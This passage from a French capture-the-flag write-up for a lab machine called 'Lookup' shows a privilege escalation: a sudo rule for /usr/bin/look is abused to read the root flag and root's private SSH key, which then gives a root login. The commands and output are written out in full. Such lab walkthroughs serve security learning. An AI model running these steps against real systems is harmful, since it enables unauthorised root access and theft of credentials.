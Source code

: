 Nous pouvons à présent nous connecter en tant que `think` et obtenir notre premier flag.

```bash
ssh think@lookup.thm
think@lookup.thm\'s password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)
[...expurgé pour brièveté...]
cat user.txt
38375f[...expurgé...]2b820e
```

## Accès en tant que root

L'utilisateur à le droit d'utiliser une commande particulière avec les privilèges {% include dictionary.html word="sudo" %}

```bash
sudo -l -l
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:

Sudoers entry:
    RunAsUsers: ALL
    Commands:
        /usr/bin/look
```

Nous devrions pouvoir abuser de ces privilèges grâce au recueil [GTFOBins](https://gtfobins.github.io/gtfobins/look/#sudo) et lire le contenu du flag root.

```bash
sudo look '' /root/root.txt
5a285a[...expurgé...]7d18e8
```

## Bonus

Il est également possible de récupérer une clé privée {% include dictionary.html word="SSH" %} nous permettant de gagner l'accès en root à la machine.

```bash
sudo look '' /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
[...expurgé...]
-----END OPENSSH PRIVATE KEY-----
```

Nous copions le contenu de la clé sur notre machine, lui attribuons les bons droits et nous pouvons nous connecter à la machine.

```bash
ssh -i id_rsa root@lookup.thm
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)
[...expurgé pour brièveté...]
id
uid=0(root) gid=0(root) groups=0(root)
```
